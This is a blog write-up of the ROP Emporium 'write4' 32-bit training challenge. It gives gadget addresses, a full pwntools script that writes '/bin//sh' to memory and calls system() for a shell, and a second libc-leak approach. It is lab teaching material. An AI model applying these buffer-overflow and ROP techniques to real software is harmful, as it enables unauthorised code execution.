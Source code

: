 ```yaml
---
layout: post
title: ROP Emporium Challenge 3 - Write4 (32 bits)
excerpt_separator: <!--more-->
---
```


Description: *We'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.*
<!--more-->

# write432

Link: https://ropemporium.com/challenge/write4.html


----------------------

## Approach 1: Write-What-Where Gadgets

### 1. Calculating RIP overwrite offset

First, we check the offset is still the same sending 41 "A" characters:

![a](images/Screenshot_1.jpg)



### 2. Write-what-where gadgets

"Frequently, you’ll want to use a ROP chain in order to write something into memory. You may want to place the string “/bin/sh” into memory in order to use it as a parameter for system(), or perhaps overwrite a Global Offset Table (GOT) entry in order to redirect execution. (...). 

A common write-what-where gadget is mov <[register]>, <register>. In Intel syntax, this means that the contents of the second register will be placed into the dereferenced pointer stored in the first register. Note the square brackets surrounding the register name, as the square brackets indicate dereferencing.

If you know you’ll want to write something to memory at some point, you may want to start by locating these write-what-where gadgets and then determining if you can control those registers through the use of other gadgets." ([source](https://trustfoundry.net/basic-rop-techniques-and-tricks/))

```
mov <[register]>, <register>

mov <[pointer to a writable area of memory]>, <contents you want to write into memory>
```

We can find all these gadgets using:

```
python /root/tools/ROPgadget/ROPgadget.py --binary write432 | grep mov | grep "\["
```

![a](images/Screenshot_2.jpg)

We have these *Write-What-Where* gadgets:

- *mov dword ptr [edi], ebp* (0x08048670) -> **writewhatwhere = 0x08048670**

Then we search for gadgets that could control EDI and EBP:

- *pop edi ; pop ebp ; ret* (0x080486da) -> **pop_edi_pop_ebp = 0x080486da**

![a](images/Screenshot_3.jpg)



### 3. Writable memory areas

Next we need to figure out where to write in memory. The best option would be the .data segment. Let’s get the address of the “.data” section in the binary. Also, the .bss section is writable:

![a](images/Screenshot_4.jpg)

Let us take as writable memory address the address 0x804a028, where .data starts -> **writable_memory = 0x804a028**


```
mov [edi], ebp

mov [0x804a028], "/bin//sh"
```



### 4. Creating the exploit

As we are working with 32 bits, we will first send "/bin" and then "//sh" (4 characters each):

```
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
```

After this, knowing the string "/bin//sh" will be located in *writable_memory*, we can make the same that in the previous challenge "split32": 

```
rop += p32(system) + p32(exit) + p32(writable_memory)
```

### 5. Final exploit

Finally, the exploit is:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'write432'
p = process('./'+binary_name)
elf =  ELF(binary_name)

system = elf.sym["system"] 
log.info("System address (.plt): " + hex(system))
pop_ebp         = 0x080486db
pop_edi_pop_ebp = 0x080486da
writewhatwhere  = 0x08048670
writable_memory = 0x804a028
exit            = 0x080484e8

rop =  "A"*44
rop += p32(pop_edi_pop_ebp) + p32(writable_memory) + "/bin" 
rop += p32(writewhatwhere)
rop += p32(pop_edi_pop_ebp) + p32(writable_memory+4) + "//sh"
rop += p32(writewhatwhere)
rop += p32(system) + p32(exit) + p32(writable_memory)

p.recvuntil("> ")
p.send(rop)
p.interactive()
```

And it works!:

![a](images/Screenshot_5.jpg)


--------------



## Approach 2: Libc leakage approach

The second approach is leaking an address of libc to calculate libc base address and then make a system("/bin/sh") call

```
payload = [140 bytes buffer] + junk + [main()] + [puts@got]
```


### Rop 1: Leaking puts address

First we will use the "puts()" function, which is present in the 

First we will use the "puts()" function, which is present in the binary, to print the address in the section .got.plt of a function. In this case we will print the address of the same function "puts()", calling it using its address in .plt section and setting its address in .got.plt as the first and only argument if the function.

```
OFFSET = "A"*44
PUTS_PLT = elf.plt['puts']
MAIN_PLT = elf.symbols['main']
puts_GOT = elf.got["puts"]

rop1 = OFFSET + p32(PUTS_PLT) + p32(MAIN_PLT) + p32(puts_GOT)
```


### Calculating libc base address

We will take the output, where the address has been printed, and will parse it. Then, knowing the offset of the "puts" function, we can calculate the base address of libc.

```
leak = u32(p.recvline()[:4])
libc.address = leak - libc.symbols["puts"]
```

### Rop 2: system("/bin/sh")

Finally, we will call the function "system" in the libc file, given that we already know the base address and the offset of the functions in these files are constant (they change between types of libc but the offset of the functions in the same libc file is the same). We will search for the string "/bin/sh" and set it as the first and only argument of the "system()" function.

```
BINSH = next(libc.search("/bin/sh"))
SYSTEM = libc.sym["system"]
EXIT = "\x12"*4 # this can be anything

rop2 = OFFSET + p32(SYSTEM) + EXIT + p32(BINSH)
```


--------------

References:

- Write in memory: https://www.exploit-db.com/docs/english/28479-return-oriented-programming-(rop-ftw).pdf. 

- About wruite-what-where: https://trustfoundry.net/basic-rop-techniques-and-tricks/

- Another write-what-where exploit: https://failingsilently.wordpress.com/2017/12/14/rop-chain-shell/

- Libc leakage: https://medium.com/hackstreetboys/encryptctf-2019-pwn-write-up-4-of-5-6fc5779d51fa

